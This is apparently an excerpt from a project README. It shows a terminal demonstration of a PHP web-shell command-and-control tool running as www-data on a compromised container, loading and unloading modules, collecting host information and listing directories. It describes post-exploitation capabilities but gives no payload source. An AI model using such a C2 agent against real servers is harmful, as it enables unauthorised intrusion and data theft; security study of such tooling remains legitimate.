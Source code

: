 ```
|      upload     | Module |                       Upload a local file to remote filepath                      |    @secu_x11    |
|     webinfo     | Module |                Get basic web server info about compromised machine                |    @secu_x11    |
+-----------------+--------+-----------------------------------------------------------------------------------+-----------------+

(C2) www-data@c48827a1b2ac:/var/www/html$ list_modules                                                                                  
+----+------+----------+------+
| ID | Name | Filepath | Date |
+----+------+----------+------+
+----+------+----------+------+
Total memory in use: 0 B

(C2) www-data@c48827a1b2ac:/var/www/html$ load_module sysinfo ls id cd                                                                  
[*] Loaded module 'sysinfo' successfully
[*] Loaded module 'ls' successfully
[*] Loaded module 'id' successfully
[*] Loaded module 'cd' successfully

(C2) www-data@c48827a1b2ac:/var/www/html$ list_modules                                                                                  
+------------+---------+----------------------------------+---------------------+
|     ID     |   Name  |             Filepath             |         Date        |
+------------+---------+----------------------------------+---------------------+
| 523453412  | sysinfo | modules/sysinfo/sysinfo.php8.php | 2023/02/22 00:12:57 |
| 1915659346 |    ls   |      modules/ls/ls.php8.php      | 2023/02/22 00:12:57 |
| 238096256  |    id   |      modules/id/id.php8.php      | 2023/02/22 00:12:57 |
| 1992344736 |    cd   |      modules/cd/cd.php8.php      | 2023/02/22 00:12:57 |
+------------+---------+----------------------------------+---------------------+
Total memory in use: 7.82 KB

(C2) www-data@c48827a1b2ac:/var/www/html$ sysinfo                                                                                       
Hostname: c48827a1b2ac
IP: 172.19.0.2
OS: Linux c48827a1b2ac 5.15.0-58-generic #64-Ubuntu SMP Thu Jan 5 11:43:13 UTC 2023 x86_64
User: www-data
Path: /var/www/html/agent_c2.php
Version: 8.0.25

(C2) www-data@c48827a1b2ac:/var/www/html$ cd ..                                                                                         
(C2) www-data@c48827a1b2ac:/var/www$ ls                                                                                                 
                
  drwxr-xr-x  1      root      root      4096   2022/11/15 04:13:21  .      
  drwxr-xr-x  1      root      root      4096   2022/11/15 04:13:21  ..     
  drwxrwxrwx  1      www-data  www-data  4096   2023/02/21 22:58:28  html   

(C2) www-data@c48827a1b2ac:/var/www$ unload_module id                                                                                   
[*] Unloaded module 'id' successfully

(C2) www-data@c48827a1b2ac:/var/www$ list_modules                                                                                       
+------------+---------+----------------------------------+---------------------+
|     ID     |   Name  |             Filepath             |         Date        |
+------------+---------+----------------------------------+---------------------+
| 523453412  | sysinfo | modules/sysinfo/sysinfo.php8.php | 2023/02/22 00:12:57 |
| 1915659346 |    ls   |      modules/ls/ls.php8.php      | 2023/02/22 00:12:57 |
```
